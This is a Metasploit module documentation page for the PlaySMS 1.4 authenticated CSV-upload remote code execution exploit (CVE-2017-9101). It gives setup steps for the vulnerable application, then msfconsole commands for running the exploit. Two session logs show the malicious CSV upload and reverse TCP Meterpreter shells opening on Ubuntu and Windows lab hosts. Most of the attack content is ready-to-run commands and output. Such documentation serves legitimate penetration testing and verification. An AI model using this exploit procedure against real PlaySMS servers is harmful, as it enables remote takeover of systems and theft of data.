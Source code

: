 ## Description
A malicious file can be uploaded by an authenticated attacker through the import.php (aka the Phonebook import feature) in PlaySMS version 1.4. Additional information and vulnerabilities can be viewed on Exploit-DB [42044]( https://www.exploit-db.com/exploits/42044/) and [CVE-2017-9101](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9101)

## Verification Steps
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

### Vulnerable Application Installation Setup.
 1. Download Application : `wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 2. Extract : `tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz`
 3. Move In WebDirectory : `mv playsms-1.4/web/* /var/www/html/`
 4. make config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change Owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.
 7. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_uploadcsv_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi SecreTSMSgatwayLogin`
 7. Do: `set username touhid`
 8. Do: `set password diana`
 9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.

## Scenarios
### Playsms on Ubuntu Linux
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.7
rhost => 10.22.1.7
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi SecreTSMSgatwayLogin
targeturi => SecreTSMSgatwayLogin
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.7:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf exploit(multi/http/playsms_uploadcsv_exec) > set lhost 10.22.1.3 
lhost => 10.22.1.3
msf exploit(multi/http/playsms_uploadcsv_exec) > run 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : c9ad6a45cd206228554b237985b344ef
[*] Trying to Login ......
[+] Authentication successful: touhid:diana
[+] X-CSRF-Token for upload : 112cd5ecbdf12daf60391609d19ae3d6
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.7
[*] Meterpreter session 2 opened (10.22.1.3:4444 -> 10.22.1.7:56580) at 2018-03-25 17:42:43 +0530

meterpreter > sysinfo 
Computer    : Dina
OS          : Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686
Meterpreter : php/linux
meterpreter > 

```
### Playsms on Windows 7
```
msf > use exploit/multi/http/playsms_uploadcsv_exec                                             
msf exploit(multi/http/playsms_uploadcsv_exec) > set rhost 10.22.1.9
rhost => 10.22.1.9 
msf exploit(multi/http/playsms_uploadcsv_exec) > set targeturi web
targeturi => web
msf exploit(multi/http/playsms_uploadcsv_exec) > check 
[*] 10.22.1.9:80 The target appears to be vulnerable.
msf exploit(multi/http/playsms_uploadcsv_exec) > set username test
username => test
msf exploit(multi/http/playsms_uploadcsv_exec) > set password metasploit
password => metasploit
msf exploit(multi/http/playsms_uploadcsv_exec) > set verbose true
verbose => true
msf exploit(multi/http/playsms_uploadcsv_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.3:4444 
[+] X-CSRF-Token for login : cf467bf4829b355a5f4f2964e853ff2c
[*] Trying to Login ......
[+] Authentication successful: test:metasploit
[+] X-CSRF-Token for upload : 3aca00c2d6a5988ed74fa7d992e14904
[*] Trying to upload malicious CSV file ....
[*] Sending stage (37543 bytes) to 10.22.1.9
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.9:50065) at 2018-03-25 17:27:57 +0530

meterpreter > sysinfo 
Computer    : TOUHID-PC
OS          : Windows NT TOUHID-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 

```

